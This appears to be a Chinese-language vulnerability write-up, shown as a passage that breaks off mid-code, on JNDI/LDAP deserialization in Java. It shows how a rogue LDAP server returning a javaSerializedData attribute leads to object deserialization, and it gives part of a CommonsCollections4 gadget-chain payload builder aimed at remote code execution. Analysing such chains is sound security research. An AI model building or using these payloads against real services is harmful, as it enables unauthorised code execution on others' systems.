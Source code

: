 也就是，可以通过修改ldap服务的对象返回内容，达到反序列化攻击

为什么呢，看上一层

```
static Object decodeObject(Attributes var0) throws NamingException {
    String[] var2 = getCodebases(var0.get(JAVA_ATTRIBUTES[4]));

    try {
      Attribute var1;
      if ((var1 = var0.get(JAVA_ATTRIBUTES[1])) != null) {
        ClassLoader var3 = helper.getURLClassLoader(var2);
        return deserializeObject((byte[])((byte[])var1.get()), var3);
      } else if ((var1 = var0.get(JAVA_ATTRIBUTES[7])) != null) {
        return decodeRmiObject((String)var0.get(JAVA_ATTRIBUTES[2]).get(), (String)var1.get(), var2);
      } else {
        var1 = var0.get(JAVA_ATTRIBUTES[0]);
        return var1 == null || !var1.contains(JAVA_OBJECT_CLASSES[2]) && !var1.contains(JAVA_OBJECT_CLASSES_LOWER[2]) ? null : decodeReference(var0, var2);
      }
    } catch (IOException var5) {
      NamingException var4 = new NamingException();
      var4.setRootCause(var5);
      throw var4;
    }
}
```

其中

```
(var1 = var0.get(JAVA_ATTRIBUTES[1])) != null
```



判断了JAVA_ATTRIBUTES[1]是否为空，这是哪个参数呢？

```
static final String[] JAVA_ATTRIBUTES = new String[]{"objectClass", "javaSerializedData", "javaClassName", "javaFactory", "javaCodeBase", "javaReferenceAddress", "javaClassNames", "javaRemoteLocation"};
```

是一个名为javaSerializedData的参数，所以，我们可以通过修改ldap服务直接返回javaSerializedData参数的数据（序列化gadget数据），达到反序列化RCE

首先，我们通过该方法，制造Common-Collectios4 gadget的base64序列化数据

```
private static byte[] makePayload(String[] args) throws Exception {
    final Object templates = Gadgets.createTemplatesImpl(args[0]);
    // mock method name until armed
    final InvokerTransformer transformer = new InvokerTransformer("toString", new Class[0], new Object[0]);

    // create queue with numbers and basic comparator
    final PriorityQueue<Object> queue = new PriorityQueue<Object>(2,new TransformingComparator(transformer));
    // stub data for replacement later
    queue.add(1);
    queue.add(1);

    // switch method called by comparator
    Reflections.setFieldValue(transformer, "iMethodName", "newTransformer");

    // switch contents of queue
    final Object[] queueArray = (Object[]) Reflections.getFieldValue(queue, "queue");
    queueArray[0] = templates;
    queueArray[1] = 1;
```